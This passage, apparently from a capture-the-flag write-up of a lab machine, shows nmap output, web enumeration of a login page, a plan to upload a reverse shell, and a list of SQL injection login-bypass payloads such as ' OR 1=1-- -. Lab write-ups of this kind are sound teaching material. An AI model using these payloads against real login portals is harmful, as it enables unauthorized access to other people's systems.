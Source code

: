 ```shell
Device type: general purpose
Running: Linux 5.X
OS CPE: cpe:/o:linux:linux_kernel:5.0
OS details: Linux 5.0
Network Distance: 2 hops
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE (using port 22/tcp)
HOP RTT      ADDRESS
1   33.91 ms 10.10.14.1
2   33.98 ms 10.129.140.54

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 9.05 seconds
```

We found port 22 open, which would allow us SSH access if we had credentials, and port 80, which is a website.

### Web Enumeration
Lets start enumerating the website:

```shell
http://10.129.140.54/
```

When accessing the website, we see many images with apparently random names.

On the bottom of the website we can see "Please Login, to upload images" and a login link. It seems if we get access we will be able to upload files, meaning we could maybe upload a reverse shell.

When clicking on login, we get to the following URL:

```shell
http://10.129.140.54/login.php
```

We tried some default credentials but werent successful.

Lets try some SQL injections.

### SQL Injection Bypass on the login portal
We tried our luck with the following basic SQL injection bypass payloads entering them as username with any password:

```shell
admin'--
' OR 1=1-- -
'' OR 1=1-- -
admin'--
admin' or 1=1-- -
admin' or 1=1-- -
admin'or'1'='1
admin' or '1'='1
```
